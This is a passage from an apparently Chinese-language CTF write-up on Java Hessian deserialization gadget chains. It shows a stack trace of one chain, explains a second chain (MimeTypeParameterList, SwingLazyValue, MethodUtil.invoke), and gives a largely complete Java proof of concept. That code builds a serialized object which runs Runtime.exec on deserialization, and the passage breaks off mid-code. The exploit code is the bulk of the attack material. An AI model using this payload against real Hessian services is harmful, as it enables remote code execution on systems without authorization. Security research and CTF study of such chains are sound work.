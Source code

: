 ```
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
getAttribute:265, PKCS9Attributes (sun.security.pkcs)
toString:334, PKCS9Attributes (sun.security.pkcs)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```

参考：[0CTF2022-hessian-onlyjdk-WriteUp](https://siebene.github.io/2022/09/19/0CTF2022-hessian-onlyjdk-WriteUp/)

### MimeTypeParameterList+SwingLazyValue+MethodUtil.invoke
大佬们又找到了另外一条链，`javax.activation.MimeTypeParameterList`
![](https://img-blog.csdnimg.cn/319239c53d8c42a7ad7ea9c467f8941e.png)

可以看到MimeTypeParameterList对`this.parameters`调用了一个get，并且parameters是一个Hashtable

接下来就是找一个public static方法，找到了`sun.reflect.misc.MethodUtil`的invoke方法
![](https://img-blog.csdnimg.cn/65d67f08eb264e2aabf113949f8c0780.png)

这里对`MethodUtil.invoke`进行了两次调用，第一次满足进入invoke条件，第二次就是执行命令了
![](https://img-blog.csdnimg.cn/84184662f0be470990a41c620bdb96ad.png)

最后的payload：
```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Hessian_MimeTypeParameterList_SwingLazyValue_MethodUtil {
    public static void main(final String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);

        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});

        uiDefaults.put("key", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();

        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        baos.write(67);
        output.getSerializerFactory().setAllowNonSerializable(true);
        output.writeObject(mimeTypeParameterList);
        output.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
```